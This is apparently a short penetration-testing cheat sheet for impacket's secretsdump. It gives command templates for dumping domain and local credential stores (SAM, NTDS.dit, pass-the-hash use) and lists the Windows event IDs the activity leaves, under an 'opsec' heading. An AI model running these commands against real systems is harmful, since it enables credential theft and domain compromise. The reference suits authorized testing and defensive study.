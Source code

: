### source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py  

### dump registry hives and other data
```
impacket-secretsdump -dc-ip <dcIp> <domain>/<user>:<password>@<rhost> -history
```

### using with pass the hash
```
impacket-secretsdump -hashes :<ntlmHash> -dc-ip <dcIp> <domain>/<user>@<rhost>
```

### dump only ntds.dit (can also use DRSGetNCCHanges Method)
```
impacket-secretsdump -just-dc <domain>/<user>:<password>@<rhost>
```

### dump credentials of single user
```
impacket-secretsdump -just-dc <domain>/<user>:<password>@<rhost> -just-dc-user <user>
```

### dump from local registry hive copies
```
impacket-secretsdump -system <systemFile> -sam <samFile> -security <securityFile> LOCAL
```

### dump from local system and ntds.dit
```
impacket-secretsdump -ntds <ntdsFile> -system system <systemFile>  LOCAL
```

### opsec considerations - Windows Security Log Event IDs
```
-Logon (4624)
-Logoff (4634)
-Special Logon (4672)
```

### Windows System Logs
```
Service Control Manager (7040) -> multiple
```

